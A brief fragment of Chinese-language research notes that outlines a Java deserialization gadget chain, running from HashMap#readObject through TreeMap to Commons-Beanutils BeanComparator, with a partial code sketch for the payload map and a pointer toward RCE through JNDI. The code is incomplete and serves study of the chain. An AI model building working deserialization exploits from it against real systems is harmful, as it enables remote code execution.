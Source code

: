 ### `总结以下目前的调用链子`

```java
HashMap#readObject 
     HashMap#putForCreate
          HashMap#eq
             AbstractMap#equals
                 TreeMap#get
                     TreeMap#getEntry 
                          BeanComparator#compare   ->getter方法
```

绕hash(对key进行的hash)

```java
tree1=new TreeMap(,)
tree2=new TreeMap(,)
map=new HashMap()
map.put(tree1,);
map.put(tree2,);


TreeMap treeMap1 = new TreeMap(comparator);
treeMap1.put(payloadObject, "aaa");
TreeMap treeMap2 = new TreeMap(comparator);
treeMap2.put(payloadObject, "aaa");
HashMap hashMap = new HashMap();
hashMap.put(treeMap1, "bbb");
hashMap.put(treeMap2, "ccc");
```

接下来就是如何rce了，从（ProperUtils在CB依赖中没影响）

![image-20231009221032080](..\img\final\image-20231009221032080.png)



### 下面的jndi链接不仅使用于 jdk1.4还试用于jdk1.8
